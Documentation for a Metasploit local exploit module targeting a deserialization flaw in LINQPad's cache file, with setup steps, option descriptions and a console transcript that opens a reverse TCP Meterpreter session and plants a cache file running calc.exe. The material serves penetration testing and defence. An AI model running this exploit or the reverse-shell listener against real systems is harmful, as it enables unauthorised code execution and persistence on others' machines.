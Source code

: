 ## LINQPad 5.48 Deserialization

LINQPad is a scratchpad for .NET programming. Versions prior to 5.52 contain a deserialization vulnerability in processing cache file when program is starting. Application can be downloaded from [here](https://www.linqpad.net/).

## Verification Steps
Steps:

1. Install the application
2. Start msfconsole
3. Get Meterpreter/cmd shell
4. Run: `use windows/local/linqpad_deserialization`
5. Set payload - for example `set payload cmd/windows/generic` - and corresponding parameters
5. Set parameters `session`, `cache_path`, `linqpad_path`, `cleanup`
6. Run exploit

## Options

### cleanup

Enable cleanup of malicious file. The module will replace cache filewith malicious content. If `cleanup` is enabled, after successful execution, the module will remove malicious cache file. The original file will be restored upon re-execution of Linqpad.


### cache\_path

The parameter sets path for folder, where vulnerable cache file is present. This is crucial part of the exploit as the folder can be used to identify whether the current version is vulnerable and the payload delivery is performed through cache file. 

### linqpad\_path

Final part of exploit runs the LINQPad to trigger deserialization procedure. The `linpad_path` parameter sets the path to LINQPad binary, which is ran at the end of exploit.

Example:

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST 192.168.95.128
msf6 exploit(multi/handler) > set LPORT 4242
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.95.128:4242 
[*] Meterpreter session 1 opened (192.168.95.128:4242 -> 192.168.95.130:53430) at 2024-12-30 12:46:16 +0100

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use windows/local/linqpad_deserialization
msf6 exploit(windows/local/linqpad_deserialization) > set LINQPAD_PATH C:/ProgramData/LINQPad/Updates50.AnyCPU/552/LINQPad.exe
msf6 exploit(windows/local/linqpad_deserialization) > set payload windows/exec/cmd
msf6 exploit(windows/local/linqpad_deserialization) > set cache_path C:/Users/ms/AppData/Local/LINQPad
msf6 exploit(windows/local/linqpad_deserialization) > set CMD calc.exe
msf6 exploit(windows/local/linqpad_deserialization) > set session 1
msf6 exploit(windows/local/linqpad_deserialization) > exploit
[*] Exploit completed, but no session was created.
```

Previous example will run `calc.exe` when LINQPad will start.

